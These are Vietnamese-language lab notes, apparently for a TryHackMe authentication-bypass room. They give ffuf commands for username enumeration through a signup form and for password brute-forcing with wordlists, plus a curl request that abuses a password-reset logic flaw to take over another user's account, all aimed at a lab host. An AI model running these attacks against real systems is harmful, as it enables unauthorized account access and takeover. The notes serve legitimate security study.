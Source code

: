 
### Username Enumeration

+ Có thể dùng form đăng ký kèm thông báo tài khoản này đã tồn tại để quét những username tồn tại trên hệ thống
+ `ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.178.157/customers/signup -mr "username already exists"` 
+ Tool ffuf : [ffuf/ffuf: Fast web fuzzer written in Go](https://github.com/ffuf/ffuf)

### Brute force

+ `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.178.157/customers/login -fc 200`
	+ W1 : username
	+ W2 : password
	+ `-fc` : Kiểm tra HTTP status code khác với giá trị truyền vào
### Logic flaw

+ Tận dụng lỗi logic của lập trình viên
+ `curl 'http://10.10.178.157/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=**{username}**@customer.acmeitsupport.thm'` Sử dụng payload này để sử dụng email của chính mình để reset password của tài khoản robert

### Cookie

+ Có thể gửi vào trường Cookie untrusted data để đánh lừa hệ thống
